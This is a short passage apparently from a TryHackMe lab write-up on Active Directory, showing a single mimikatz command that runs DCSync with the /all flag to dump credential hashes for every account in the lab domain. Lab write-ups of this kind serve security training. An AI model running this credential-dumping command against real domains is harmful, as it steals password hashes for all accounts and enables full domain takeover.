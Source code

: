 <figure><img src="../../.gitbook/assets/image (35) (4).png" alt=""><figcaption></figcaption></figure>

Now, instead of specifying our account, we will use the /all flag:

**Victim(mimikatz)**

```
lsadump::dcsync /domain:za.tryhackme.loc /all
```
